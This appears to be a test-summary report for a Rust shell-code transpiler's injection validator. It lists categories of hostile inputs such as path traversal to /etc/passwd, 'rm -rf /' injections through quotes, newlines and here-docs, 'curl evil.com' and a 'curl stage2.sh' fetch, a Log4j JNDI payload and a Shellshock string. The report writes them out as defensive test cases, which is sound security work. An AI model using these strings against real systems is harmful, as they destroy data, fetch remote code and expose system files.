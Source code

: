 ### Category 2: Path Traversal (2 tests)
✅ Dotdot sequences: `"../../../etc/passwd"` (safely handled)
✅ Absolute paths: `"/etc/passwd"` (allowed with quoting)

### Category 3: Variable Expansion (2 tests)
✅ Unquoted expansion: `"$(rm -rf /)"`
✅ Dollar signs: `"$USER"` (safe when quoted)

### Category 4: Glob Expansion (2 tests)
✅ Asterisk patterns: `"*"` (quoted to prevent expansion)
✅ Question marks: `"file?.txt"` (allowed)

### Category 5: Control Characters (3 tests)
✅ Newline + commands: `"hello\nrm -rf /"`
✅ Carriage return: `"hello\rcurl evil.com"`
✅ Null bytes: `"hello\0world"` (handled safely)

### Category 6: Quote Escaping (2 tests)
✅ Single quote escape: `"'; rm -rf /; echo '"`
✅ Double quote escape: `"\"; rm -rf /; echo \""`

### Category 7: Environment Manipulation (2 tests)
✅ IFS manipulation: `"IFS=';';eval$(...)"`
✅ PATH in strings: `"PATH=/tmp:$PATH"` (safe when quoted)

### Category 8: Here-doc Attacks (1 test)
✅ Here-doc syntax: `"<< EOF\nrm -rf /\nEOF"`

### Category 9: Multi-stage Attacks (2 tests)
✅ Injection chains: `"$(curl stage2.sh); eval"`
✅ Obfuscated patterns: `"$((0x72))$((0x6d))"` (hex encoding)

### Category 10: Real-World Patterns (3 tests)
✅ Log4j-style: `"${jndi:ldap://evil.com}"`
✅ Shellshock: `"() { :; }; /bin/bash -c 'cat /etc/passwd'"`
✅ Filename injection: `"file.txt; rm -rf /"`

### Category 11: Framework Validation (2 tests)
✅ Pattern detection: All 6 known-bad patterns caught
✅ False positives: All 5 safe strings allowed

---

## Technical Implementation

### Validation Pipeline Enhancement

**Before**:
```rust
fn validate_expr(&self, expr: &Expr) -> RashResult<()> {
    match expr {
        Expr::Literal(_) => Ok(()),  // ❌ No validation!
        // ...
    }
}
```
